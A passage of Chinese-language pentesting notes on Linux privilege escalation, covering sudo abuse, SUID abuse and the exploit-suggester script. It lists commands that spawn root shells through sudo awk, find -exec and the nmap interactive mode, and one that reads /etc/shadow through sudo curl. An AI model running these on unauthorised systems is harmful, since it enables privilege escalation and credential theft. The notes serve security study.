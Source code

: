 下载地址：https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl

```
./linux-exploit-suggester-2.pl
```

## sudo滥用

 `/etc/sudoers`文件定义可以执行 sudo 的账户、定义某个应用程序用 root 访问、是否需要密码验证

```bash
sudo -l	#查看当前用户可以sudo的程序
```

**AWK：**

```
sudo awk 'BEGIN {system("/bin/sh")}'	#通过生成交互式系统外Shell序来脱离受限环境，需要普通用户的密码
```

**CURL：**

```
sudo curl file:///etc/shadow
```

## SUID提权

SUID 是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行【ls 查看时有 s 属性才支持 SUID】

**查找正在系统上运行的所有SUID可执行文件**

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

**比如发现了find**

```bash
#随便新建一个文件，或利用已有文件
touch abc

#以SUID即root权限执行命令
find abc -exec whomai \;
```

**nmap SUID提权**

```bash
#2.02 to 5.21版本 用交互模式执行shell命令
sudo nmap --interactive		
nmap> !sh
```

## su root被禁止登录

> 拿到 root 密码，端口转发，代理，但防火墙禁止其他人登录 root；
>
> 用原来的低权限 shell，也无法 sudo 切换 root  
>
> 因为出于安全考虑，linux 要求用户必须从终端设备（tty）中输入密码，而不是标准输入（stdin）
>
> 所以 sudo 在你输入密码的时候本质上是读取了键盘，而不是读取 bash 里面输入的字符
>
